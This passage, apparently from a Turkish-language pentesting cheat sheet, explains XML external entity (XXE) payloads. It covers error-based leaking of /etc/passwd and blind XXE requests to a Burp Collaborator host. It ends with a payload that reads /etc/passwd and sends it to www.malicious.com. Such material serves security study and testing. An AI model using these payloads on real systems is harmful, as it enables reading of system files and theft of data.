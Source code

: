 2-`<!ENTITY % eval “<!ENTITY &#x25; error SYSTEM ‘file:///nonexistent/%file;’>”>` Bu satır, başka bir entity tanımını tutan bir entity eval tanımlar. Bu diğer entity (error) var olmayan bir dosyaya referans vermek ve dosya yolunun sonuna dosya entity'sinin içeriğini (`/etc/passwd` içeriği) eklemek içindir. `&#x25;` bir entity tanımı içindeki bir entity'ye referans vermek için kullanılan URL kodlu bir ‘`%`’ dir.

3-`%eval;` Bu satır, entity hatasının tanımlanmasına neden olan eval entity'sini kullanır.

4-`%error;` Son olarak, bu satır `/etc/passwd` içeriğini içeren bir yolla var olmayan bir dosyaya erişmeye çalışan error entity'sini kullanır. Dosya mevcut olmadığından, bir hata oluşacaktır. Uygulama hatayı kullanıcıya geri bildirir ve hata mesajına dosya yolunu dahil ederse, `/etc/passwd` dosyasının içeriği hata mesajının bir parçası olarak ifşa edilecek ve hassas bilgiler açığa çıkacaktır.

### 99- Collaborator ile Basit Blind XXE (BurpSuite)

```
<?xml version="1.0" ?>
<!DOCTYPE root [
  <!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> 
  %ext;
]>
<r></r>
```

- `%ext` adında bir **parameter entity** tanımlıyorsun.
- Bu entity'nin değeri, bir **uzaktaki (remote) URL'ye yapılan istek**.
- `%ext;` çağrıldığında parser bu URL'ye GET isteği atar.

#### Normal ENTITY ile Blind Request

```
<!DOCTYPE root [
  <!ENTITY test SYSTEM 'http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net'>
]>
<root>&test;</root>
```

- `test` adında bir **ENTITY** tanımlanmış.
- Bu entity `&test;` çağrıldığında **remote bir sunucuya** istek gönderilir.
- Eğer parser bu URI’yi çözümlerken **internete istek atabiliyorsa**, Collaborator sunucusuna ulaşır.

Bu örnekte **parameter entity (`%`) değil**, normal **general entity (`&`)** kullanılıyor.


### Blind XXE ile Dosya İçeriği Sızdırma (ilk satır)

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY % xxe SYSTEM "file:///etc/passwd" >
  <!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]>
<foo>&callhome;</foo>

```
